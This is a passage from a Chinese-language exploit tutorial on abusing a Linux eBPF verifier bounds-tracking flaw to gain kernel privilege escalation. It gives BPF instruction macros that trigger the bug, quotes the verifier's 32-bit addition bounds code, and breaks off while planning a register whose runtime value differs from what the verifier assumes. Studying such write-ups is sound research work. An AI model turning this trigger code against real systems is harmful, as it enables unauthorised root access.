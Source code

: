 接下来我们考虑如何利用这个漏洞完成提权，现在我们有了一个 32 位边界值为 [1，0] 、32位推测值与32位运行时值都为 0 的寄存器，接下来我们考虑如何构造一个  
verifier 推测值与运行时值不同的寄存器，从而继续完成后续利用  
## 一、构造边界值为 [1, 0] 的寄存器  
  
第一步还是先利用漏洞构造一个最小边界值为 1、最大边界值为 0 的寄存器，因为 R1~R5 有的时候要用来作为函数参数，所以这里我们改为在 R6 上继续构造  
  
因为读取 map 的操作代码行数太长了（），所以笔者现在给他封装到一个 BPF_READ_ARRAY_MAP_IDX() 宏里：  
```
#define VULN_REG BPF_REG_6

#define BPF_READ_ARRAY_MAP_IDX(__idx, __map_fd, __dst_reg)                   \        /* get a pointer to bpf_array */                \        BPF_LD_MAP_FD(BPF_REG_9, __map_fd),             \        BPF_MOV64_REG(BPF_REG_1, BPF_REG_9),            \        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),           \        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -8),          \        BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, __idx),        \        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem), \        /* if success, r0 will be ptr to value, 0 for failed */              \        BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),          \        BPF_EXIT_INSN(),                                \        /* mov the result back and clear R0 */          \        BPF_MOV64_REG(__dst_reg, BPF_REG_0),            \        BPF_MOV64_IMM(BPF_REG_0, 0)

#define TRIGGER_VULN(__map_fd)                          \        /* load value into r2, make it part-unknown */  \        BPF_READ_ARRAY_MAP_IDX(0, __map_fd, BPF_REG_8), \        BPF_LDX_MEM(BPF_DW, VULN_REG, BPF_REG_8, 0),    \        BPF_MOV64_IMM(BPF_REG_4, 0xffffffff),           \        BPF_ALU64_IMM(BPF_LSH, BPF_REG_4, 32),          \        BPF_ALU64_REG(BPF_AND, VULN_REG, BPF_REG_4),    \        BPF_ALU64_IMM(BPF_ADD, VULN_REG, 0x1),          \        /* r3 = 0x100000002 */                          \        BPF_MOV64_IMM(BPF_REG_3, 0x1),                  \        BPF_ALU64_IMM(BPF_LSH, BPF_REG_3, 32),          \        BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, 0x2),         \        /* triger the vulnerability */                  \        BPF_ALU64_REG(BPF_AND, VULN_REG, BPF_REG_3)
```  
## 二、构造运行时为 1、verifier 确信为 0 的寄存器  
  
我们还是考虑继续在 32 位上做文章，假如我们构造出另一个 32 位边界值为 [0, 1] 、32位运行时值为 0 寄存器 R7，将这个寄存器与我们的 R6 相加，其边界值计算其实就是检查是否有溢出然后简单的把两个寄存器边界相加：  
```
static void scalar32_min_max_add(struct bpf_reg_state *dst_reg,
                                 struct bpf_reg_state *src_reg)
{
        s32 smin_val = src_reg->s32_min_value;
        s32 smax_val = src_reg->s32_max_value;
        u32 umin_val = src_reg->u32_min_value;
        u32 umax_val = src_reg->u32_max_value;

        if (signed_add32_overflows(dst_reg->s32_min_value, smin_val) ||
            signed_add32_overflows(dst_reg->s32_max_value, smax_val)) {
                dst_reg->s32_min_value = S32_MIN;
                dst_reg->s32_max_value = S32_MAX;
        } else {
                dst_reg->s32_min_value += smin_val;
                dst_reg->s32_max_value += smax_val;
        }
        if (dst_reg->u32_min_value + umin_val < umin_val ||
            dst_reg->u32_max_value + umax_val < umax_val) {
                dst_reg->u32_min_value = 0;
                dst_reg->u32_max_value = U32_MAX;
        } else {
                dst_reg->u32_min_value += umin_val;
                dst_reg->u32_max_value += umax_val;
        }
}
```  
  